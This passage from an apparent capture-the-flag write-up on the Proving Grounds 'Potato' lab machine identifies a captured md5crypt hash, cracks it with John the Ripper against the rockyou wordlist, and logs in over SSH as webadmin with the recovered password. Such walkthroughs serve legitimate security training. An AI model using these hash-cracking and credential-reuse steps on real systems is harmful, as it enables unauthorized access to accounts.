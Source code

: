 ![burp3](../../../assets/images/ctfs/proving_grounds/potato/burp3.png)

We can grab the _webadmin_ hash and crack in John.

![burp4](../../../assets/images/ctfs/proving_grounds/potato/burp4.png)

Get the hash format for John from _name-that-hash_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/potato]
└─$ nth --file hash.txt

  _   _                           _____ _           _          _   _           _
 | \ | |                         |_   _| |         | |        | | | |         | |
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash


$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

Most Likely
MD5 Crypt, HC: 500 JtR: md5crypt
Cisco-IOS(MD5), HC: 500 JtR: md5crypt
FreeBSD MD5, HC: 500 JtR: md5crypt


```

Now we can crack with John.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/potato]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (?)
1g 0:00:00:00 DONE (2023-11-08 22:48) 12.50g/s 1800p/s 1800c/s 1800C/s 123456..sandra
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We get the password _dragon_ and can authenticate to the SSH service as the _webadmin_ user.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/potato]
└─$ ssh webadmin@192.168.222.101

webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)

```
